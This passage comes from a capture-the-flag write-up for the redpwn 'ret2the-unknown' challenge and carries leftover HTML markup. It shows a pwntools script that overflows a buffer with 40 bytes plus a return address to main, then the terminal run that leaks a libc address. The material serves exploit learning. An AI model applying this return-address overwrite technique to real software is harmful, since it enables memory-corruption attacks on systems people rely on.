 REMOTE = False  

if REMOTE:  
   p = remote(</span><span class="c1 c4">"mc.ax"</span><span class="c1">,31568)  
</span><span class="c1 c12">else:</span><span class="c1">  
   p = process(</span><span class="c1 c4">"./ret2the-unknown"</span><span class="c1">)  

rip_offset = 40  
main = 0x0000000000401186  
payload = b'A'*40 + p64(main)  

p.recvuntil(b</span><span class="c1 c4">"safely?"</span><span class="c1">)  
p.sendline(payload)  
p.interactive()</span>

</td>

</tr>

</tbody>

</table>

<span class="c11"></span>

<span class="c11">The code shown above first starts a local process for the binary. Afterwards, the payload is sent and an interactive instance is called to the process:</span>

<a id="t.4092f903d45bb943d40debbb3547e5efe870c317"></a><a id="t.8"></a>

<table class="c7">

<tbody>

<tr class="c22">

<td class="c0" colspan="1" rowspan="1">

<span class="c1">┌─[0xd4y@Writeup]─[~/business/ctf/redpwn/pwn/ret2the-unknown]  
└──╼ $python3 poc.py  
[+] Starting</span> <span class="c3">local</span><span class="c1">process './ret2the-unknown': pid 5749  
[*] Switching</span> <span class="c3">to</span><span class="c1">interactive mode  

phew, good</span> <span class="c3">to</span><span class="c1">know. shoot! i forgot!  
rob said i'd need this</span> <span class="c3">to</span><span class="c1"> </span><span class="c3">get</span><span class="c1"> there: 7f3f6e089cf0  
good luck!  
</span><span class="c3">that</span><span class="c1">board meeting was a *smashing* success! rob loved</span> <span class="c3">the</span><span class="c1"> challenge!  
</span><span class="c3">in</span><span class="c1">fact, he loved</span> <span class="c3">it</span><span class="c1">so much he sponsored</span> <span class="c3">me</span><span class="c1">a business trip</span> <span class="c3">to</span><span class="c1"> this place called 'libc'...  
</span><span class="c3">where</span><span class="c1"> </span><span class="c3">is</span><span class="c1">this place? can you help</span> <span class="c3">me</span><span class="c1"> </span><span class="c3">get</span><span class="c1"> there safely?  
</span><span class="c1 c20">$</span><span class="c1">test  
phew, good</span> <span class="c3">to</span><span class="c1">know. shoot! i forgot!  
rob said i'd need this</span> <span class="c3">to</span><span class="c1"> </span><span class="c3">get</span><span class="c1">there: 7f3f6e089cf0  
good luck!  
[*] Got EOF</span> <span class="c3">while</span><span class="c1">reading</span> <span class="c3">in</span><span class="c1"> interactive  
</span><span class="c1 c20">$</span><span class="c1">thanks!  
[*] Process './ret2the-unknown' stopped</span> <span class="c3">with</span><span class="c1"> </span><span class="c3">exit</span><span class="c1">code -11 (SIGSEGV) (pid 5749)  
[*] Got EOF</span> <span class="c3">while</span><span class="c1">sending</span> <span class="c3">in</span><span class="c1">interactive  
Traceback (most recent call</span> <span class="c3">last</span><span class="c1">):  
 File</span> <span class="c1 c4">"/usr/local/lib/python3.9/dist-packages/pwnlib/tubes/process.py"</span><span class="c1">, line 787,</span> <span class="c3">in</span><span class="c1"> close  
